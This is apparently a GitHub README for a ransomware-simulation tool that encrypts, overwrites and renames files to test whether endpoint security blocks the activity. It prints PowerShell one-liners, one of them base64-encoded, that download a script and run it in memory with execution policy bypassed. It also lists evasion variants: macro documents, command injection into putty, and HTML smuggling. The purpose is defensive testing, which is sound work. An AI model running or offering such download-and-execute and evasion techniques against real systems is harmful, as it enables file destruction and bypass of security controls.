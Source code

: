 # Really can protect from ransomware encryption?

We often come across antivirus and next-generation endpoint solutions that claim to offer ransomware protection, boasting advanced capabilities in detecting activities such as penetration, invasion, and pre-encryption through the use of AI and machine learning. However, these solutions may still fail to prevent the encryption process if they happen to miss detecting these malicious activities.

To address this concern, we have developed a simple tool that simulates the ransomware encryption process. This tool can help you determine whether your EDR (Endpoint Detection and Response) or antivirus software is capable of blocking such malware encryption behaviors.


[![Watch the video](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/mr.bean2.gif)](https://youtu.be/CQIq8GDtDG0)

**Stop encryption is the last defense, which cannot be neglected.**


# Which brand can detect encryption operation?

That's why I developed this tool.  It is not to replicate found malware, not vendor test tool, no bias, no need to install, just do encrypt (in memory) - overwrite (original file) - rename (file extension), simulate the core operation of ransomware.

It is safe enough to run it on your working PC and server, let you see the fact in your environment.

I have helped people to test this after WannaCry outbreak.  Luckly, I found few brands can detect it, and one of them can stop ransomware encryption initiated from remote PC via file share and RDP as well.  I did see a real Ransomware incident, that endpoint really could stop encryption, no loss.

You can refer to the source code if you know programming or you can download the complied files.

Hope there is no more ransomware incident!  Please share this blog with friends if you found it is useful.


# This tool


![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/EncryptDelTestv4.1b.gif)



This tool encrypts - overwrite - rename the files in the selected (local or network) folder and subfolder, you may create a temporary folder like C:\Encrypt-Delete-Test\, save this tool to there, then run it.  Be safe.

It tests if your endpoint can detect when encryption is happening (like base on the files change pattern), but NOT to test if your endpoint can prevent it from start.

It is great if you can share your test result with me for my record.


![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/summary2.png)


EncryptDelTestv4_1.jar
- runs on Windows and Mac OS
- requires at least Java 8, http://www.java.com
(usually java.exe or javaw.exe is a trusted software, it is more difficult for endpoint to detect)


EncryptDelTestv4.1.exe / NaughtyDelTestv4.1.exe + NaughtyDelTestv4.1.dll
- runs on Windows
- requires at least .NET Framework 4.0


EncryptDelTestv4.1.ps1
- runs on Windows
- requires PowerShell


Fileless
- (download and run in memory directly) 
- powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/EncryptDelTestv4.1.ps1.txt')"
- powershell.exe -exec Bypass -noexit -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AZQBkAGQAaQBlAGMAaAB1AC8ARQBuAGMAcgB5AHAAdAAtAEQAZQBsAGUAdABlAC0AVABlAHMAdAAvAG0AYQBpAG4ALwBFAG4AYwByAHkAcAB0AEQAZQBsAFQAZQBzAHQAdgA0AC4AMQAuAHAAcwAxAC4AdAB4AHQAJwApAA==


EncryptDelTestv4.1.dll
- rundll32.exe EncryptDelTestv4.1.dll,Encrypt
- rundll32.exe EncryptDelTestv4.1.dll,Decrypt


NaughtyDelTestv4.1.xls (may be blocked by anti-virus)
- hide in Word Document


putty_naughty.exe (may be blocked by anti-virus)
- inject command in putty.exe


EncryptDelTestv4.1.html
- HTML smuggling to encode and embedded payload
- alternative download https://securitylab.pages.dev/EncryptDelTestv4.1

$${\color{red}Red}$$
<code style="color : red">text</code>
#aarrggbb[Text using 8 chars notation (red = ffff0000)]

| EncryptDelTestv4_1.jar | EncryptDelTestv4.1.exe | EncryptDelTestv4.1.ps1 | 
|---------------|---------------|---------------|
|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen41.gif)|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen40.gif)|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen43.gif)|


# How it works

###### EncryptDelTestv4.1.ps1 (local drive)

| CANNOT detect | CAN detect |
|---------------|---------------|
|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen43.gif)|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen55.gif)|
| The tool encrypts all files, a red page is shown and all files are encrypted | The encryption operatoin is blocked, no red page is shown, few files are encrypted, but they are being restored |


#

###### EncryptDelTestv4.1.ps1 (remote attack)

| CAN detect |
|---------------|
|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen56.gif)|
![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/endpoint3.gif)
|The tool tries to encrypt files in network drive (N:\), the server the encryption operaton from remote, few files are encrypted, but they are being restored|




Archived https://github.com/eddiechu-zz/Encrypt-Delete-Test






#

ransomware test tool
ransomware simulation
ransomware simulator
ransomware assessment
eddie chu
eddiechu.android@gmail.com
anti-ransomware
antivirus test
anti-virus test
endpoint test
infosec
security
cyber security
cybersecurity
incident response
hacker
antimalware
anti-malware
encryption
encrypt-del-test
encrypt-delete-test
encryptdeltest
encrypt overwrite rename
tool
test tool
defense
testing
pentest
penetration test
blue team
red team
poc
